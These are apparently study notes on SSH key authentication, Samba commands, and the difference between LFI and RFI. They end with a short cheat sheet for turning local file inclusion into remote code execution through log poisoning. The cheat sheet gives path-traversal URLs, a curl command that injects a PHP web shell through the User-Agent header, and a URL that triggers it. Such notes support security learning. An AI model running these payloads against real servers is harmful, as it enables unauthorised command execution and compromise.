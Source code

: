 
# How SSH Key-Based Authentication Works
---

## Overview

SSH key-based authentication lets you log into a remote system **without a password**, using a **cryptographic key pair**:

- **Private Key** → stays on your machine
- **Public Key** → copied to the server (in `~/.ssh/authorized_keys`)

---

## Step-by-Step Authentication Process

### 1. Client Offers Key Type

The client begins the SSH connection and tells the server:
> "I want to authenticate using an `ssh-rsa` key."

---

### 2.  Server Checks `authorized_keys`

The server checks:

```
/home/<user>/.ssh/authorized_keys
```

It looks for a **matching public key**.

---

### 3.  Challenge–Response Authentication

- **Server** sends a random challenge (nonce)
- **Client** signs the challenge using their private key

---

### 4.  Server Verifies the Signature

- Using the public key from `authorized_keys`, the server checks:
  > "Did this private key really sign my challenge?"

 If the signature is valid → authentication **succeeds**  
 Otherwise → **access denied**

---

## What Goes in `~/.ssh/authorized_keys`

An example entry:

```
ssh-rsa AAAAB3... user@machine
```

- `ssh-rsa` → Key type
- `AAAAB3...` → Base64-encoded public key
- `user@machine` → Optional comment

-------------------------------------------------------------------
# What's SSH tunneling 




-----------------------------------------------------------------
# Samba 
Samba is a Linux/Unix implementation of the SMB/CIFS protocol that lets non‑Windows machines act as file‐ and print‐servers (or join Windows domains). At a high level:

## Services & Files  
- **Daemons**  
  - `smbd` – file/printer sharing  
  - `nmbd` – NetBIOS name service  
  - `winbindd` – AD user/group mapping  
- **Config**: `/etc/samba/smb.conf`  
- **Logs**: `/var/log/samba/`


## List shares: 
```bash
smbclient -L //<host> -U <user> 
```

## Mount shares:
```bash 
mount -t cifs //server/share /mnt \
  -o username=dora,password=Secret123
```

--------------------------------------------------------------

# LFI vs RFI
## LFI
    You can read arbitrary files (e.g. /etc/passwd).
    You may escalate to RCE by poisoning logs (e.g. access your PHP code into access.log and then include it).
    No direct outbound HTTP fetch is needed—everything is local.

## RFI
    The app fetches PHP code from your server and executes it immediately.
    You get straight up remote shell or backdoor.
    Modern PHP ships with allow_url_include=Off to block this by default.


# LFI → Log Poisoning → RCE Cheat Sheet

1. **Identify log file path**  
  Look at the config file before 
   ```bash
   # Try common Apache log locations via LFI
   http://TARGET/?something=../../../../../../var/log/apache2/access.log
   http://TARGET/?something=../../../../../../var/log/httpd/access_log
   ```
2. **Inject php code**
  ```bash 
  curl -A "<?php system(\$_GET['cmd']); ?>" http://TARGET/
  ```
3. **Trigger LFI to include the poisoned log**
http://TARGET/image.php?img=../../../../../../var/log/apache2/access.log%00&cmd=id

